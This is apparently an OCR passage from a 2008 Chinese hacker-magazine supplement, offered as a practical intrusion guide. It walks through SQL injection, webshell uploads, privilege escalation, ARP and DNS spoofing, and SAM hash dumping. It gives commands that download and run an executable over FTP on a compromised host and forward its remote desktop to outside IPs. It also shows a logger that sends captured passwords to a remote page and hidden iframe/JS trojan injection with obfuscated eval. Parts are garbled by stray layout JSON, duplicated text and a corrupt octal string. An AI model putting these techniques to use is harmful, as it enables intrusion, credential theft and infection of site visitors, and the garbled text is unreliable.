找了一会儿，又在admin目录下找到了一个名曰“ad.asp”的文件，打开后发现是自己当年写的超浓缩diy小马，嘿嘿，这次终于能完成任务了，如图56所示。

但是又一个问题来了，在写入webshell后，我并不知道webshell的文件名，默认的j.asp被人侵入者更改了。唉，上天真是会弄人啊！

继续搜索可疑文件，找到了一个名称为“add.asp”的文件，虽然名字没什么可疑，但我

# 非安全·黑客手册 2008 第一增刊


想可能这是个添加文章的文件，应该有上传的地方，如果文件没有做验证的话，我们不就可以长驱直入了么？但当我打开后，发现其竟然是一个webshell！如图57所示。


这个应该就是在我之前进入系统的人侵者放置的了，嘿嘿，找到了个大马，但我不知道这个webshell的密码啊！看来得用社会工程学了。

首先，我们知道一般的人侵者都会用自己的网名、QQ 或邮箱前缀作为自己 webshell 的密码，而这个人侵者的网名有两个，一个是 “LcySun”，还有一个是 “冰冷的太阳”，接下来，我们就要寻找一些关于这人侵者的资料！

首先我们来获得这人侵者的 QQ 和邮箱，这个大马有他的blog 连接，我打开看了一下，并没有什么有用的信息。那么就利用 baidu hack 来弄他的资料吧！

打开 www.baidu.com，输入 “icysun 黑客”。大家可能会问：为什么要加 “黑客” 这个关键词？原因很简单，我们要的是他的资料，网上叫 Icy Sun 的人可能很多，但接触网络安全的可能就他一个，所以我加上了 “黑客” 这个关键词。

结果，我在一个贴吧里找到了他的信息，那是他入侵了一个网站后留下的信息，如图58所示。


# 三言两语说不尽 -- 非主流入侵

"3600*****@vip.qq.com" 或 "icysun@vip.qq.com"。于是我用 "3600*****" 和 "icysun" 作为密码分别登录，结果利用 "icysun" 后成功进入，如图 59 所示。


既然拿到了 webshell，后面的事情我就不说了。比较郁闷的是，后来我发现，这个人入侵者是我一个朋友认识的，早知道就直接问他要密码了，晕～～

> 在开始的时候，因为网站的页面几乎全是静态 asp，所以令我们不能进行注入攻击。但是后来发现了后台验证页存在注入漏洞，这就成为了我们的第一个突破点。但因为某种原因，导致我们不能通过常规的思路去获取 webshell。几经周折，我们找到了前人入侵时留下的一个 webshell，由于不知道这个 webshell 的密码，所以我们略微施展了一下社会工程学，最后成功拿下目标。

### 6. 入侵实例赏析六之第三方程序缺陷配合 SQL 注入漏洞拿下目标

这次我们要入侵的目标是某著名电子厂商的一个分站，在网页中我很容易地找到了一个注入点，如图 60 所示。


从图 60 中可以看出，这个注入点的权限为 db_owner，最典型的思路当然是先列目录，然后找到网站的根目录，再备份一个一句话木马进去。但是经过了数小时的努力，还是未能找到该网站的绝对路径，于是我准备先猜解出网站的后台管理员账号和密码，进后台再说。不

# 非安全·黑客手册2008第一增刊

一会儿，管理员的账号密码就猜解出来了，如图61所示。


在得到了管理员账号密码后，又发现，就是我们不知道后台登录的地址。我使用了多个注入工具都未能猜出后台路径，思路再次中断。

整理一下思路，我推测网站是使用asp + mssql进行搭建的，既然不能直接利用网站的漏洞进行入侵，那么能不能利用第三方WEB程序来配合我们呢？

打开baidu，在其中输入“site:网站地址”，然后一页一页的翻，翻了一会儿，发现该网站的根目录下有一个名称为“aspcheck.asp”的文件，心想难道是asp的探针？打开一看，果然如我所料，如图62所示。

|服务器名|服务器IP|服务器时间|IIS版本|服务器解析引擎|本文件实际路径|
|---|---|---|---|---|---|
|**服务器有关参数** | 222.73.**** | 2008-7-30 19:51:29 | Microsoft-IIS/6.0 | JScript: 5.7.5730 | D:\nqlweb\jd2005\googlecount\aspcheck.asp |
|服务器操作系统 | 服务器端口 | 服务器CPU数量 | 脚本超时时间 | Session变量 | 服务器环境变量 |
| 80 | 个 | 90 秒 | 0个 | 14个 [遍历环境变量] |
| Application变量 | 3个 [遍历Application变量] | 所有服务器参数 | 49个 [遍历服务器参数] | Session变量 | 服务器环境变量 |
| 服务器磁盘信息 | 服务器连接速度 |  |  |  |  |
| 本文件实际路径 | D:\nqIweb\jd2005\googlecount\aspcheck.asp |

各位读者仔细看看图62，不难发现网站的绝对路径为 “D:\nqIweb\jd2005\googlecount" 。嘿嘿，马上备份一个一句话木马进去，连上后成功拿下目标，真是简单快捷啊，过程我就不截图了。

> 在入侵的前期，我们很幸运的找到了一个db_owner的注入点，但是在列目录的时候并没有找到目标网站所在的路径。接着通过注入获得了目标的后台管理员账号密码，但是却没有找到后台。几经周折，我们最终利用了一个第三方WEB程序“asp探针”获得了网站的路径，然后直接备份了一句话木马进去，最终拿下目标。

# 三言两语说不尽 -- 非主流入侵

### 7. 入侵实例赏析七之利用嗅探攻击拿下目标站点

这次我们要入侵的目标是一间很著名的艺术学校，其网站地址为 “http://www.xxx.edu.cn”，主页界面如图63所示。


在主页转了几圈，没有发现明显的注入漏洞和上传漏洞，而图63中的登录框只能是同一内网的IP才能登录，使用google hack和Baidu hack都未能找到突破点，旁注的时候发现这是一台独立服务器。看来，我们要拿下这个网站并不是件简单的事情。

想了一下思路，我决定先拿下其C段的一台服务器，然后再进行嗅探攻击。先使用IIS scanner对目标服务器的C段IP进行了一次扫描刺探，结果如图64所示。其中219.*.*.146是目标服务器的IP地址，而且服务器C段的机器都不存在IIS写权限漏洞。


还是从网站入手吧！我选取了219.*.*.148进入入侵，这个IP的真实域名是 “http://zs.xxx.edu.cn/”，是该站的一个分站。打开这个分站，发现它是使用一款名曰“雷池新闻发布系统”的WEB程序进行搭建的，这套系统曾暴出过上传漏洞，所以我们可以尝试利用上传漏洞来获得webshell。

打开 “http://zs.xxx.edu.cn/admin/uploadPic.asp?actionType=mod&picName=luoye.

# 非安全·黑客手册2008 第一增刊

asp”，这个是雷池新闻发布系统的上传漏洞地址，如图65所示。


打开后我们直接上传一个后缀为jpg的webshell，过了一会儿后（程序不会提示上传信息的），打开 “http://zs.xxx.edu.cn/uppic/luoye.asp” 就能看到我们的webshell了，如图66所示。


进入webshell后，我直接使用golds7n的asp版Serv - U提权程序进行提权，结果成功了。进入服务器后我打开了IIS看了一下，发现这台服务器中存在好多站点，网络群可是非常庞大的，如图67所示。


# 三言两语说不尽 -- 非主流入侵

嘿嘿，先不理它怎样，我们现在来使用最著名的嗅探工具C a i n 进行嗅探攻击。

首先要安装驱动winpcap，我的是4 . 0 版本，因为这个版本与最新版的cain4 . 9 配合起来很稳定。安装好winpcap后，就可以打开cain4 . 9 进行嗅探配置了，这里要注意一下，一般cain是要安装的，但我使用的是绿色深度汉化版，不需要安装，所以直接使用就行。

打开cain4 . 9 后选择“嗅探”标签，再点击“配置”按钮，在“嗅探器”标签中选择要嗅探的网卡，然后选择“过滤与端口”标签，选择所有的端口，如图6 8 所示。


设置好嗅探端口之后我们还可以打开“ARP(Arp Poison Routing)”标签来伪造IP地址和M A C 地址，目的是避免被管理员发现。一切设置好后，我们可以点击软件界面左上方形似核辐射警告的黄色按钮开始嗅探了，如图6 9 所示。


往后要做的事情就是漫长的等待，等c ain 嗅到主站的管理员账号和密码后，我们就可以拿下主站了。至于要多久才能嗅到管理员的账号密码，这就要看你的运气了，因为我也不能肯定管理员哪天会上线，不过可以肯定的是，拿下主站只是时间问题。

在这次入侵过程中，我们并没有寻找到目标网站或目标服务器的漏洞，由于目标网站的服务器是一

# 非安全·黑客手册 2008 第一增刊

## 12、不要过于相信工具

有时候我们使用一些注入工具对目标网站进行扫描，但没有扫出任何目录，这时可以自己手工测试几个常用的后台目录，如 “admin”、“manage” 或 “manager” 等，因为我就曾经遇到过用工具扫不出，但确实存在的后台目录；有时候我们扫描出很多后台文件时，同样不要太过于相信工具，因为这可能是服务器屏蔽了错误信息。

## 13、ewebeditor 的另一个漏洞

有时我们找到了ewebeditor 的地址并进入了其后台，却发现目录被设置成了只读权限，这时我们可以打开其目录下的 admin_uploadfile.asp 文件，并加上参数 “admin_uploadfile.asp?id=14&dir=../..”，这样就可以浏览到上一层目录了，想查看什么目录直接构造 “dir” 变量的参数即可。

## 14、ewebeditorNET 上传漏洞

打开ewebeditorNET 目录下的 “upload.aspx”，选择一个 webshell，然后在地址栏里面输入 “javascript:btnUpload.click();”，回车之后我们查看源码，就能看到 webshell 的地址了。

### 五、后记

好了，本文到这里也就结束了，希望各位读者都能有所收获，同时也祝各位的技术步步高升，早日成为网络安全界的领军人物！文中如果有错误或疏漏的地方还请各位多多指出，最后我要感谢土豆大哥、神无月、知识型流氓、Flyh4t、云中鸡、所有前SST 的成员和 DRT 的所有成员等等，感谢他们在写稿的过程中给予的帮助，祝他们一路走好。

## 外柔？内刚？ -- 内网渗透攻略


## 经常在一些BBS 和杂志里看到渗透 X X 网站的文章，其实就是拿下主机后扔了一个 WEBSHELL 在上面，严格来说这根本算不上渗透。因为当你进了主机所在的内网，面对 N 多的机器时，才知道内网是多么的庞大。

### 一、内网基础

如果有的朋友现在还不了解路由器和交换机等是什么意思，那应该好好补习一下了。这里说一下内网的判断，可能有的朋友认为192.168.1.x 这样的形式就是内网，并说用ipconfig /all 命令就可以看到内网地址，其实这样判断太过草率。比如说为了安全，自己买了一个路由器，那么在我的电脑执行ipconfig /all 时，IP 地址也是内网，其实我有内网吗？是没有的。

在渗透内网之前我们先来了解一下局域网常见的拓扑结构。网络中的计算机等设备要实现互联，就需要以一定的结构方式进行连接，这种连接方式就叫做“拓扑结构”。通俗地讲，就是表示出网络设备是如何连接在一起的。目前常见的网络拓扑结构主要有四大类：1 、星型结构；2 、环型结构；3 、总线型结构；4 、星型和总线型结合的复合型结构。这里我给出两张内网的拓扑结构图，如图 1 、图 2 所示。


因为本文是讨论渗透内网的，所以每种的详细介绍我就不写出来了，大家简单了解下就可以了，有兴趣的可以到百度搜索。

可能刚入门的朋友不是很了解为什么主机在内网，而我们还能访问到呢？这里为大家简单解释下。现在很多服务器都是用了硬件防火墙作映射，也就是说服务器其实都在防火墙之后，并且没有外网IP。这是现在很多网络流行的NAT配置方法，相对来说比较安全，这样就需要在渗透的时候做端口映射。

下面我把以前入侵渗透内网的过程和思路，以及一些高手们的渗透经验和相关工具都综合的说一下。首先是通过脚本漏洞获得了一个WEBSHELL，服务器打开的端口只有21和80，没有装Serv - U、PCAnywhere等第三方软件。wscript.shell为真，上传CMD能执行一些简单的命令，其他脚本木马权限一样。

这台服务器上面就两个站，目录权限不是很严，发现D 盘下有一个字符替换器，如图3所示。直接把它下载回本地看看是什么东东，原来是一个查找字符的工具，如图4 所示。


莫非这个站以前让人搞过？管理员是用这个工具来查找被改文件的。试了一下修改这个工具的文件名，如图5 所示，可以修改。这就好办了，我可以把木马和它捆绑。接着等管理员上线，两天了都没动静，只好把首页涂了，告诉他网站有漏洞，已被人植入木马，请查找木马。并修改了几个重要文件的时间，果然管理员就上线了，如图6 所示。

拿到权限，执行ipconfig /all，果然有内网IP，如图7所示。没开终端太不方便了，我直接帮它开了！后来这台机器我又做了VPN。开3389可以手工和用工具，这里推荐两个开3389的工具，都还比较不错，一个是火狐的开3389工具，另一个是特南克斯。


至于怎么把程序传到肉鸡上，有很多办法，可以用远程程序直接传，也可以在本机架 F T P 服务器。我用的是20cn的FTP服务器，如图8所示。

设置好用户和密码后，在cmdshell里执行如下命令：

```
echo o 你架设FTP的IP>ftp.txt
echo 'hacklu>>'ftp.txt //写入ftp.txt 用户名
echo 123456>>ftp.txt //写入ftp.txt 密码
echo bin>>ftp.txt //二进制方式转输
echo get 11.exe>>ftp.txt //将11.exe下载到肉鸡
echo bye>>ftp.txt //断开FTP
type ftp.txt //查看写入是否有错误
ftp -s:ftp.txt //执行ftp.txg里的内容
```

这样我们就可以把11.exe下载到肉鸡，然后运行就可以了。另外，黑手0803期杂志提到的开3389的VBS工具也不错，大家可以一试，建议选择不超过300KB的程序，也可以把EXE转成BAT再上传。

工具运行后会自动判断系统是否为WIN2000或者WIN2003，是WIN2000系统则自己重启，也可以自定义终端端口，运行结果如图9所示。


现在执行netstat –an，发现3389已经开放，但是这样直连是连接不上的，因为我们外界是无法直接访问到内部机器的，但可以让内网机器来访问我们，比如现在流行的反弹木马，这样就需要我们做端口映射。说到端口映射工具当然代表作就是LCX了，首先在本机执行lcx –listen 99 9833，在肉鸡上执行lcx –slave 123.114.120.115 127.0.0.1 99 3389，意思是在本机监听99和9833端口，把99端口数据转到9833上面，然后把肉鸡的3389端口数据转到本机的99端口上，最后就可以拿连接器连接本地的9833端口了，如图10所示。


但是很奇怪，这次却没有连上！那就用下教主的高级内网渗透工具Paris。工具的其他功能就不多说了，只说下端口映射功能。

上传msxidc和vVXDc.dll到目标内网机器，在目标机器执行：msxidc –l127.0.0.1 –p3389 –m82 –s61.149.230.28 –r22，在自己机器或者有公网IP的肉鸡上执行：MAPServer.EXE –p22，这时候只要连接本机或者公网IP肉鸡的22端口就可以了。

再说一款比较不错的工具——htran.exe，它能开启Socks5服务，但我们只说端口映射。在公网肉鸡监听任意两个端口，执行：htran –p –listen 119 120，然后在内网的机器执行：

htran -p –slave 公网肉鸡IP 119 127.0.0.1 3389，这样是这个内网肉鸡的3389转发到公网肉鸡，或者自己机器的119端口上，然后再用3389登录器连接公网肉鸡的120端口，或者连接本机的120端口，如图11所示，成功连接进桌面。


个小时左右就可以破得出来，而且现在还有破解 H A S H 的彩虹表，不过体积很庞大。

在前段时间，从网上看见一篇文章，文章名字是“卸载补丁去除保护，获取 Windows2003 密码”，讲的是卸载 Windows2003 SP1/SP2。因为要最初的 Windows 2003 才可以利用 findpass 从 winlogin 进程中抓出系统账号明文密码，抓出密码后再重新安装上 SP1/SP2 补丁。我个人没有实验过，此方法很暴力，也不推荐这么做，很容易被发现的。

那什么是 HASH 呢？简单点讲就是把任意一段数据，经过某种算法，生成一段唯一的，固定长度的数据。HASH 一般翻译做“散列”，也有直接音译为“哈希”的。通过散列算法，变换成固定长度的输出，该输出就是散列值。

H A S H 主要用于信息安全领域中加密算法，它把一些不同长度的信息转化成杂乱的 1 2 8 位编码值，叫做 HASH 值。

也可以说，H A S H 就是找到一种数据内容和数据存放地址之间的映射关系。对于哈希，菜鸟也可以这么理解，即保存电脑上管理员登录的一种加密后的密码。至于它的详细加密算法，有兴趣的朋友可以百度一下。


我这里用的是 SAMInside 来抓 HASH；程序打开后选择“三个小人”处的图标，点击“使用 LSASS 输入本地用户”，如图 15 所示，这样计算机的用户名和 HASH 值就会出现在列表里，如图 16 所示。


直接点右上方的开始按钮（黄色的向右三角）就可以破解密码了，如图 1717所示。也可以导出用其它工具破解，只要选择“文件”－“输出用户到 PWDUMP 文件”，这样就可以把 HASH 保存为文本文件，如图 18 所示。

我们也可以用 PWDUMP 抓 HASH，如图 19 所示，只要将内容复制下来保存成文本文件，最后再用 L C 5 破解。


# 图16


# 图17


# 图18

+   - 从 SAM 和 SYSTEM 注册表文件输入()...\n- 从 SAM 注册表文件和用系统密钥文件输入()...\n- 使用 LSASS 输入本地用户\n- 使用计划任务输入本地用户 ()\n- 从 PHDUMP 文件输入...\n- 从 *.HDT 文件输入...\n- 从 *.LCP 文件输入...\n- 从 *.LCS 文件输入...\n- 从 *.LC 文件输入...\n- 从 *.LST 输入文件...\n- 输出用户到 PHDUMP 文件 ()...\n- 输出选定用户到 PHDUMP 文件 ()...\n- 注意！使用 Windows XP + Service Pack 2 操作系统，

L C 5 的安装非常简单，一直“下一步”即可。安装完毕运行程序，然后从主界面导入刚才保存的 H A S H 文本文件，点击“导入”按钮（主界面左起第六个），在“导入”界面中选中“从 P W D U M P 文件”，用户列表就会显示出来，再点击“开始”就可以破解了，如图20、图21所示。


而对于 WIN2000 的系统，我们可以直接用 MT 读出密码。运行 mt –findpass，返回信息如图 22 所示。

 版权所有 1985-2000 Microsoft Corp.
C:\WINNT\system32>
```

# 图33

的CMD SHELL，如图32、图33所示。

在得到 CMD SHELL 之后，就可以添加用户或者给机器种马了，大家好自为之吧！另外，也可以用07年比较火的 DNS 溢出，DNS 服务一般开放53端口。DNS服务器有的时候就是域服务器，关于域环境下的渗透可以参考方法五。

### 方法四：ARP 欺骗、DNS 欺骗

这种方法是比较实用的，得多介绍一下，但同时也是比较容易暴露自己的。不少同行在C段方面和内网方面用的都是 ARP欺骗，菜菜们可能从“黑手”杂志中也经常看到嗅探的时候用到的ARP欺骗，我们再来复习一下吧。

首先在内网机器输入 arp –a，如图34所示，这里第一列显示的是IP地址，第二列显示的是和IP地址对应的网络接口卡的硬件地址（MAC），第三列是该ip和mac的对应关系类型。

```
C:\Documents and Settings\Administrator>arp -a
Interface: 192.168.1.101 --- 0x4
Internet Address      Physical Address      Type
192.168.1.1          00-0a-eeb-\            dynamic
```

# 图34

可见，ARP是一种将ip转化成以ip对应的网卡的物理地址的一种协议，或者说 ARP协议是一种将IP地址转化成MAC地址的一种协议。它靠维持在内存中保存的一张表来使ip得以在网络上被目标机器应答。

# 非安全·黑客手册2008 第一增刊

之间用冒号隔开，如08:00:20:0A:8C:6D就是一个MAC地址，其中前3位16进制数08:00:20代表网络硬件制造商的编号，它由IEEE（电子与电子工程师协会）分配，而后3位16进制数OA:8C:6D代表该制造商所制造的某个网络产品（如网卡）的系列号。输入ipconfig /all就可以看见本机的MAC地址。

2、什么是ARP？大家都知道计算机通信是要有IP地址的吧！可是在局域网中，计算机之间的通信是只靠MAC地址来发送数据的。ARP是一种协议，用来实现IP地址到MAC地址的转换，假设192.168.1.1要发一个数据给192.168.1.101，它就会发出ARP广播包问：“谁是192.168.1.101？我要你的MAC地址！” 这时候192.168.1.101会回答：“我是192.168.1.101，我的MAC是AA-AA-AA-AA-AA-AA。” 然后192.168.1.1就会把这个回答记录下来，然后再发数据给192.168.1.101的时候就直接构造目地地址为AA-AA-AA-AA-AA-AA-AA的数据包发送。

3、什么是ARP欺骗？经过刚才的ARP查询的过程我们知道，在询问的过程中，因为不知道到底谁才是192.168.1.101，所以192.168.1.1发出的是广播包来询问，其它的主机虽然也收到了这个包，但并不回答。假如现在192.168.1.102居心不良，想冒充192.168.1.101，它也可以给192.168.1.1发一个数据包，回答说：“我才是192.168.1.101，我的MAC地址是BB-BB-BB-BB-BB-BB。” 那么192.168.1.1就会把原先的那条记录从MAC地址表中删除掉，写入新的这个地址对应关系，这就是ARP欺骗。

4、什么是网关？在局域网中，所有的电脑可能是共用一个网络出口，这个出口就是网关了。网关可以是一台电脑，也可以是一个路由器的某个接口，它一样有自己的IP地址，局域网中所所有的要发到外部的数据包都直接递交给关，网关负责将这个数据包传递到远程网络，再将外界返回的数据分发给药局域网中的指定电脑。

A R P 协议在设计当初并没有充分的考虑到安全问题，所以今天才出现N多的ARP欺骗工具，造成T C P / I P 协议是如此的脆弱。在介绍工具之前，我们再来谈谈服务器在机房中的情况。一般而言，现在流行的主机托管方式是将服务器放在机柜里，和许多服务器一起共用一个交换机共享100M 的带宽，这样就造成了一个问题，那些没有做端口隔离的机房（绝大多数机房都是这样的），每个交换机下的所有服务器就构成了一个局域网。在这个局域网下，大家就可以玩ARP欺骗了。

说到ARP嗅探的工具，要先提一下有一定地位的cain，官方最新版为4 . 918，下载后进行安装，如图35所示，直接NEXT下一步就可以了。安装好后运行cain，点击“Sniffer”标签页，选择工具栏第二个按钮，再点击十字按钮（工具栏左起第七个），在弹出的对话框中选择子网中所有计算机，如图36所示。


在“Configure”选项里我们可以根据需要选择端口，如21、80、3389等，如图37所示。（注：原图可能无图37，按用户提供最后一段）这时再选择下面的“A R P ”，现在十字按钮是灰色的，点击一下空白处，再选择十字按钮，弹出对话框。这时在左边选择网关，右边选择欺骗的I P ，最后点“O K ”。接着开始嗅探，按下工具栏上左起的第三个按钮，如图3 8 所示。

[PAGE 134]

# 外柔？内刚？ -- 内网渗透攻略


这样就开始嗅探数据了，如图3 9所示，是嗅探到的H T T P密码。另外，如果嗅探到了3 3 8 9的密码，我们在上面打开文档，在里面就可以找到密码，如图4 0所示。

大家在用cain嗅探时可能遇到过这样的情况，数据一大就当机，过了很长时间都连不上。这时候就需要我们尽可能把不需要嗅探的端口都去掉，这样会大大的减少当机的可能性。如果看到丢包率超过1 0％就要注意啦！赶紧停掉，看看那里没有设置好吧。另外，给大家提供一个“chong”写的B A T程序，在开始嗅探的时候运行就可以了，代码如下：

```
=======start========
:ping
```

[PAGE 135]

# 非安全·黑客手册 2008 第一增刊

```
ping g.cn\nIF ERRORLEVEL 1 GOTO reboot\nIF ERRORLEVEL 0 GOTO ping\n:reboot\niisreset /reboot\n====end====
```

代码里的g.cn可以设置为网关的IP或你的IP，如果能ping通的话就继续ping，不通的话就认为当机了（自己事先测试下）。再说下D S N欺骗，我们看下D S N是怎样工作的。

DNS全称是Domain Name Server，即域名服务器。当一台主机发送一个请求要求解析某个域名时，它会首先把解析请求发到自己的DNS服务器上。如果内网里的192.168.1.101要访问百度www.baidu.com，但不知道其IP地址，这时192.168.1.101主机询问网关192.168.1.1：“www.baidu.com的IP是多少？”如果这时候我们冒充网关192.168.1.1返回给192.168.1.101一个特定的含有网页木马的IP，这样就实现了DNS域名欺骗。

首先用前面讲过的方法让cain列出内网机器，然后在ARP里选择“ARP-DNS”，点击空白处激活十字按钮，弹出一个D N S欺骗对话框。在请求D NS域名栏中填入对方要访问的网站，如www.baidu.com，然后再改写响应的IP地址，如图41所示。


我们响应的地址可以是一个网页木马的地址，这里我以网关为例，也就是说192.168.1.101访问www.baidu.com的时候会转向192.168.1.1的页面。我们先来访问一下192.168.1.1，如图42所示。


我们在192.168.1.104的机器上装cain开始DNS欺骗后，这次访问百度网页，如图43所示，是不是也和访问192.168.1.1的页面一样了？如果我们在本地架设一个H TTP服务器，

[PAGE 136]

# 外柔？内刚？ -- 内网渗透攻略


挂上一个网马后，就能欺骗访问者了。当然，如果想做的更像，可以制作一个和欺骗主页一样的页面。

### 方法五：域结构下的渗透

在入侵域结构内网之前我们先来了解一下什么是域。可能大家对工作组都比较熟悉，但域和工作组是不一样的。工作组是一群计算机的集合，它仅仅是一个逻辑的集合，各自计算机还是各自管理的。你要访问其中的计算机，还是要到被访问计算机上来实现用户验证的。

而域不同，域是一个有安全边界的计算机集合，在同一个域中的计算机彼此已经建立了信任关系。在域内访问其他机器，不再需要被访问机器的许可了，也就是域用户登录，超级大的权限。而域还可以扩展，像域树、域林。在一个网络中既可以有多个多级子域、域树，还可以有多个林。

为了大家好理解，我这里举个例子：例如一个内网是一个大楼，而每层的每个房间是一台计算机，当然每个房间的钥匙只有房间的主人才拥有。但大楼建立有一个保安室，而这保安室为了管理方便，有一把可以打开任意房间的钥匙。前提是，这个房间允许加入保安的管理范围内，这个保安室就是域控制器。

当然，再形象点说，大楼可以是10层，而每一层都有一个保安室，也可以有一个总的保安室。再往大的范围来说，也可以有很多大楼，大楼与大楼之间为了方便，也可以建立共享。如活动目录的域，活动目录可以贯穿一个或多个域。在独立的计算机上，域即指计算机本身，一个域可以分布在多个物理位置上。同时，一个物理位置又可以划分不同网段为不同的域，每个域都有自己的安全策略以及它与其他域的信任关系。

当多个域通过信任关系连接起来之后，活动目录可以被多个信任域“域共享”。再往回说，每台机器像一片树叶，而我们控制了树叶，还想控制树权，而最后还想控制这棵大树，这时候就到域根了。而一棵树是在一片森林当中的。

在入侵内网的时候，一般先用 net view 查看内网的情况，列出共享的域、计算机或资源的列表，如图44所示。如何判断有没有域呢？其实用ipconfig /all 命令基本就看出来了。大家可以回到前面看一下图7，注意一下第二项，也就是Primary Dns Suffix 这项，我们可以


![](bbox=[0.406, 0.58, 0.8, {'direction': 'horizontal', 'contents': [{'type': 'title', 'markdown': '外柔？内刚？ -- 内网渗透攻略', 'bbox': [0.125, 0.03, 0.875, 0.06]}, {'type': 'image', 'markdown': '', 'bbox': [0.125, 0.09, 0.825, 0.26]}, {'type': 'paragraph', 'markdown': '挂上一个网马后，就能欺骗访问者了。当然，如果想做的更像，可以制作一个和欺骗主页一样的页面。', 'bbox': [0.125, 0.28, 0.875, 0.32]}, {'type': 'title', 'markdown': '方法五：域结构下的渗透', 'bbox': [0.225, 0.33, 0.475, 0.35]}, {'type': 'paragraph', 'markdown': '在入侵域结构内网之前我们先来了解一下什么是域。可能大家对工作组都比较熟悉，但域和工作组是不一样的。工作组是一群计算机的集合，它仅仅是一个逻辑的集合，各自计算机还是各自管理的。你要访问其中的计算机，还是要到被访问计算机上来实现用户验证的。', 'bbox': [0.125, 0.36, 0.875, 0.48]}, {'type': 'paragraph', 'markdown': '而域不同，域是一个有安全边界的计算机集合，在同一个域中的计算机彼此已经建立了信任关系。在域内访问其他机器，不再需要被访问机器的许可了，也就是域用户登录，超级大的权限。而域还可以扩展，像域树、域林。在一个网络中既可以有多个多级子域、域树，还可以有多个林。', 'bbox': [0.125, 0.48, 0.875, 0.59]}, {'type': 'paragraph', 'markdown': '为了大家好理解，我这里举个例子：例如一个内网是一个大楼，而每层的每个房间是一台计算机，当然每个房间的钥匙只有房间的主人才拥有。但大楼建立有一个保安室，而这保安室为了管理方便，有一把可以打开任意房间的钥匙。前提是，这个房间允许加入保安的管理范围内，这个保安室就是域控制器。', 'bbox': [0.125, 0.59, 0.875, 0.71]}, {'type': 'paragraph', 'markdown': '当然，再形象点说，大楼可以是10层，而每一层都有一个保安室，也可以有一个总的保安室。再往大的范围来说，也可以有很多大楼，大楼与大楼之间为了方便，也可以建立共享。如活动目录的域，活动目录可以贯穿一个或多个域。在独立的计算机上，域即指计算机本身，一个域可以分布在多个物理位置上。同时，一个物理位置又可以划分不同网段为不同的域，每个域都有自己的安全策略以及它与其他域的信任关系。', 'bbox': [0.125, 0.71, 0.875, 0.82]}, {'type': 'paragraph', 'markdown': '当多个域通过信任关系连接起来之后，活动目录可以被多个信任域“域共享”。再往回说，每# 外柔内刚 -- 内网渗透攻略

大家都知道，在域管理网络中，只要搞定域管理员，内网一切机器就都OK了！现在域服务器有了，域管理员有了，就可以用前面的几种方法来入侵域服务器，如ARP嗅探域服务器。而域管理者在很多时候也是DNS服务器，还可以尝试下DNS溢出等。

这里我为大家推荐一个Winlogon劫持，记录3389密码的小工具，原作者为“lovemfc”。用这个不仅可以记录本机登录的3389密码，还可以记录域管理员登录本机的密码，因为域管理员是有权限登录下面每台用户机器的。

但是这样有个缺点，就是记录密码的东西只能保存在本机上，而ASM根据这个写了一个发信版的生成器，大大方便了大家。

程序运行后如图50所示，选择好接收的ASP地址后，生成出来CreateServer.exe，直接在服务器上运行即可。post.asp会在你的URL地址下生成key.txt。


该程序适用于WIN2003系统，如图51所示，是我记录到的本机管理员和域管理员的密码，这下就可以纵横整个内网了。在服务器上扫描开放3389端口的主机，用域管理员登录就OK了。


在域控的环境中，我们只要得到域控密码也可以直接用ipc连接管理员机器种马。最后登录内网几台机器抓图纪念一下，如图52所示。

# 骑兵手册 —— 挂马技术专谈

很多人非常鄙视挂马，但是作为hack必须了解的技术，我们还是要研究的。本文将很细致的讲解挂马，主要目的就是让一无所知的菜鸟懂得如何挂马。

### 一、最简单的挂马方式

### 1. iframe挂马法

作为挂马中最常用的语句，虽然很简单，但还是要说下，为了广大的菜菜们。首先解释下iframe标签，它代表HTML内联框架，以下是其相关属性：

| name       | 定义了内容页名称，此名称在框架页内链接时会使用到 |
| --- | --- |
| frameborder | 定义了内容页的边框，取值为(1|0)，缺省值为1          |
| marginwidth | 定义了框架中HTML文件显示的上下边界的宽度，取值为px，缺省值由浏览器决定 |
| marginheight| 定义了框架中HTML文件显示的左右边界的宽度，取值为px，缺省值由浏览器决定 |
| align      | 垂直或水平对齐方式                                   |
| height     | 框架的高度                                         |
| width      | 框架的宽度                                         |

一般我们常用的属性就是height和width，因此为了让客户看不到我们的网马，就设置height为0，width为0。我们本地测试下，利用记事本新建一个文件，然后输入代码：<iframe src=http://www.baidu.com width=50 height=50></iframe>，保存为*.htm 文，我这里是2.htm，如图1所示。


当把width和height都设置为0后，页面就相当于被“隐藏”了起来，实践中只要把以上代码中src后的地址改成网马就可以了。

### 2. js文件挂马法

由于iframe所利用的代码很明显，有经验的管理员一搜索就可以找到，所以又有人想出了js文件挂马，这招在06年的时候很流行，现在也还是主流哦！

首先建立一个文件，保存为1.htm，里面写入代码为：<script language=javascript src='http://127.0.0.1/tg.js'></script>，因为我是在本地测试的，目录是D:\website，里面有个tg.js文件。tg.js里写挂马语句，比如：document.write("<iframe src=http://www.baidu.com width=100 height=100></iframe>");

好了，写完后保存文件，然后访问下1.htm就可以看到效果了，如图2所示，内嵌页面

# 非安全·黑客手册2008第一增刊

的宽、高各为100，所以页面显示出来了。


其实<script language=javascript src='http://127.0.0.1/tg.js'></script>就是调用了tg.js这个文件，当别人访问1.htm的时候就调用tg.js，然后再根据tg.js文件的意思去访问我们的网马。这样，管理员在1.htm中搜索iframe就与挂马无关了，但我们却又能调用网马。

为了让管理员搜索不到iframe字样，最好的办法还是对js文件里的内容进行加密，复制我们的JS文件里的内容，把它们转成其它进制。这里我有个软件可以进行转化操作，将要加密的内容复制到“要转的”输入框里，然后单击“给我转！”，分别就会在“输出的八进制”和“输出的十六进制”处出现转换后的内容，如图3所示。


然后把转换的八进制复制下来，在js文件里这么写：

```
eval("\144\157\154\145\164\145\40\114\117\105\116\101\40\115\114\116\40\104\116\116\112\58\47\47\119\119\117\46\142\141\49\44\57\57\51\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\54\